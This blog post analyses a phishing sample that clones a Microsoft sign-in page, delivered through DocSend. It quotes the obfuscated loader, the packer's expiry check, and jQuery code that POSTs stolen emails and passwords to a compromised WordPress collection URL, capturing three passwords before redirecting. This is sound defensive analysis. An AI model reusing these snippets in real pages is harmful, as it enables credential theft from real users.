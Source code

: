 +++
author = "Brian Stadnicki"
title = "Docsend Payment Audistore phisher"
date = "2021-11-30"
categories = [ "malware analysis" ]
tags = [ "reverse engineering", "malware", "html", "phishing", "js" ]
+++

![Overview](/posts/malware-docsend-payment-phisher-audi/overview.png)

This phishing sample was delivered through `docsend` and relies on the user opening the downloaded html file and logging into microsoft. Sample collected from [JOESandbox](https://www.joesandbox.com/analysis/898395). 

MD5: `7d6375abf1cff57c9d7da133cfaf0782`

## Loader

```html
<!--
TG9yZW0gaXBzdW0gZG9sb3Igc2l0IGFtZXQsIGNvbn
...  --><script type='text/javascript'>document.write('\u003C\u0021\u002D\u002D\u0058\u0056\u005A\u0054\u0074\u006D...');</script><!-- TgZG9sb3Igc2l0IGFtZXQsIGNvbnNlY3R
...
G1vZG8gdHlwaSwgcXVpIG51bmMgbm9iaXMgdmlkZW50dXIgcGFydW0gY2xhcmksIGZpYW50IHNvbGxlbW5lcyBpbiBmdXR1cnVtLg

#### #### -->
```

There's a large comment full of likely random data to help evade detection, and a call to `document.write`, which writes text to the document stream.

## Packed

First of all, it appears the embedded html page was packed using [Proteger HTML](https://www.ProtegerHtml.com/en), and their license expires on `Sun Dec 05 2021 01:29:00 GMT`, that's in just 5 days of this post being published. 

```js
var timeexpiracion=1638667740;
var timehoy = Math.round(+new Date()/1000);
if (timehoy>timeexpiracion) { alert ("The HTML Code of this Website was Encrypted Free at: www.ProtegerHtml.com/enNOTE: To encrypt your Website without..."
```

The blurred out word document is, as usual, just an image hosted on `gyazo`.

```html
<body style="background-image: url('https://i.gyazo.com/d1b2270a564efe0c37d2e01ed1c647a8.png'); ...>
```

### Form

The microsoft form is a clone in terms of html and css of the real one, the difference is the javascript driving it. The create account and alternative sign-in links are just `#` of course.

```js
var base64regex = /^([0-9a-zA-Z+/]{4})*(([0-9a-zA-Z+/]{2}==)|([0-9a-zA-Z+/]{3}=))?$/;
if (!base64regex.test(email)) {  
```

There's even input validation on the email.

When the user clicks next, the malware fetches the email's logo using clearbit, eg `https://logo.clearbit.com/google.com`, defaulting to the microsoft logo.

![Enter password form](/posts/malware-docsend-payment-phisher-audi/enter-password.png)

When the user presses sign in, the text changes to `verifying..`, and a POST request is sent to the collection server.

```js
$.ajax({
    dataType: 'JSON',
    url: "https://www.audistore.com.ar/wp-admin/user/user/next.php",
    type: 'POST',
    data: {
        email: email,
        password: password,
        detail: detail,
    }
```

The `detail` in the request body appears to be nothing.

```js
$("#password").val("");
if (count >= 3) {
    count = 0;
    $("#div2").animate({ left: 0, opacity: "hide" }, 0);
    $("#div3").animate({ left: 0, opacity: "show" }, 500);
    setTimeout(() => {
        window.location.replace("https://office365.com/");
    }, 500);
    return false;
}
```

The form errors 2 times before redirecting the user to `https://office365.com/`, in order to collect any other passwords the user has.

![Sign in attempt timeout](/posts/malware-docsend-payment-phisher-audi/sign-in-attempt-timeout.png)

![Password incorrect](/posts/malware-docsend-payment-phisher-audi/password-incorrect.png)

After collecting 3 of the user's passwords, it gives a very dodgy looking success screen.

![Success redirecting](/posts/malware-docsend-payment-phisher-audi/success-redirecting.png)

Then it redirects to `https://office365.com/`.

### Audi Store

The credentials are collected at `https://www.audistore.com.ar/wp-admin/user/user/next.php`. Only the [CRDF](https://crdf.fr) has placed this domain on the malicous URL list so far.

![Audi store](/posts/malware-docsend-payment-phisher-audi/audistore.png)

Looks like somebody forgot to update their wordpress installation...

I've contacted them to try to get this removed from their website.
